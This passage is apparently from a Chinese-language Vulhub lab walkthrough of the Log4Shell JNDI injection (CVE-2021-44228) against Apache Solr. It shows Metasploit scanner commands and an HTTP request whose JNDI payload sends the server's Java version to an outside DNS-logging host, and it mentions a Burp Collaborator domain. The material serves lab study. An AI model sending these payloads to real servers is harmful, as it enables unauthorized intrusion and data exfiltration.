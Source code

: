 ```
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvhost kali.local
```

设置 srvport

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvport 8983
```

运行 log4shell_scanner

```
msf6 auxiliary(scanner/http/log4shell_scanner) > run
```

检测出存在 log4j2 漏洞

![检测出存在 log4j2 漏洞](./../../../../images/Vulhub/log4j/Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）/检测出存在 log4j2 漏洞.png)

**数据外带**

在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起 DNS 请求，这个时候就可以通 DNSlog 把想获得的数据外带出来。

>DNSlog 是存储在 DNS Server 上的域名信息，它记录着用户对域名的访问信息，类似日志文件。

>DNSlog 回显
>
>当解析 `hello.com` 时无法回显，可以将 `hello.com` 及所有子域名泛解析到 `hello.com` 的 IP，此时解析 `www.hello.com` 就可以从 DNSlog 得到`hello.com` 的 IP。

将以下 Payload 作为管理员接口的 action 参数值发送至目标服务器

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

> `bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com`是利用 JNDI 发送 DNS 请求的 Payload
>
> 可以在 DNS 日志平台收到相关日志，显示出当前 Java 版本

打开 Burpsuite，进入  Burp Collaborator 
